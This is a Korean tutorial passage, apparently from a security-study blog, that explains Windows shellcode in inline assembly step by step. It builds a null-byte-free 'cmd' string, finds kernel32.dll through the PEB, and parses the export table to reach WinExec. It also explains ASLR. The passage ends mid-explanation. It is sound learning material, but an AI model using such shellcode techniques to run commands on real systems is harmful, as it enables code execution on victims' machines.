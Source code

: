 우선 첫 부분에 나오는 내용을 보자.

```asm
void main()
{
  __asm{
    jmp start
  }
```
> 처음에 시작할 때 start로 점프하여 start를 수행한다.

```asm
start:
		// cmd 문자열
		xor eax, eax
		mov [ebp+0xc], eax  
		mov [ebp+0xc], 0x63 // c
		mov [ebp+0xd], 0x6d // m
		mov [ebp+0xe], 0x64 // d
```
> 나중에 실행할 WinExec 함수의 인자값으로 사용할 c, m, d 문자열을 스택에 저장, 널바이트를 제거하기 위해 xor을 이용

```asm
// kernel32.dll base address 구함
mov eax, fs:[eax+0x30]   // PEB
mov eax, [eax+0xc]   // PEB_LDR_DATA
mov eax, [eax+0x14]  // .exe InMemoryOrderModuleList
mov ebx, [eax]       // ntdll.dll InMemoryOrderLinks
mov ebx, [ebx]       // kernel32.dll InMemoryOrderLinks
mov ebx, [ebx+0x10]	 // ebx = kernel32.dll base address
```
> 위 코드는 이전에 WinDBG로 실습하면서 kernel32.dll의 Base 주소를 구하는 부분이다. 해당 코드를 수행하고 나면, ebx에 kernel32.dll의 Base 주소가 저장된다. 참고로, 이 주소는 ASLR로 인해 재부팅하면 변경될 수 있다.

> ASLR은 메모리 보호 기법 중 하나로, 메모리상의 공격을 어렵게 하기 위해 스택이나 힙, 라이브러리 등의 주소를 랜덤으로 프로세스 주소 공간에 배치함으로써 실행할 때 마다 데이터의 주소가 바뀌게 하는 기법이다.

```asm
// export table
mov edi, [ebx+0x3c]  // PE Header
add edi, ebx
mov edi, [edi+0x78]	 
add edi, ebx
mov [ebp+0x18], edi  // Export Directory
mov esi, [edi+0x20]  // Export Name Table
add esi, ebx
mov ecx, [edi+0x24]	  
add ecx, ebx         // Ordinal Table
xor edx, edx
pushad
```
> Base 주소를 구하면, Offset을 더해서 Export Directory Table, Export Name Table, Ordinals Table, Export Address Table을 구할 수 있다. 우선, Export Directory 주소값을 구하고 edi 레지스터와 스택(*ebp+18*)에 저장한다.

> Export Name Table 주소값은 esi 레지스터에 저장하고, Export Orindal Table의 주소값은 ecx 레지스터에 저장한다. 이제 함수 주소를 찾는 코드로 점프한다.
